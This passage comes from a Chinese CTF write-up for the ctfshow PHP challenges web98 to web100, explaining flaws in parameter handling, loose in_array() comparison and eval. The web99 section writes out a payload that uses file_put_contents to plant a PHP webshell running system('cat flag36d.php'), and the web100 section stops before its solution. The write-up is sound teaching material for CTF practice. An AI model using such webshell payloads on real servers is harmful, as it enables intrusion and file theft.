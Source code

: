 ```php
}else{
'flag';
} 
if($_GET['HTTP_FLAG']=='flag'){//需要满足这个条件就可以输出flag
	highlight_file($flag);
}else{
	highlight_file(__FILE__);
}
所以我们只需要 GET一个?HTTP_FLAG=flag 加 POST一个HTTP_FLAG=flag
中间的代码没有作用，因为我们不提交 flag 参数
```

## web99~in_array()漏洞

```php
<?php

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```

[![DtG78J.md.png](https://s3.ax1x.com/2020/11/24/DtG78J.md.png)](https://imgchr.com/i/DtG78J)

、**意为当没有设置第三个函数时，比较是会自动转换数据类型，也就是弱比较。**

那么我们传入`1.php` 就相当于若等于`1` .

构造

```php
/?n=1.php  
# post
content=<?php system('cat flag36d.php');?>
```

## web100~运算符优先级,反射类

```php
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}


```
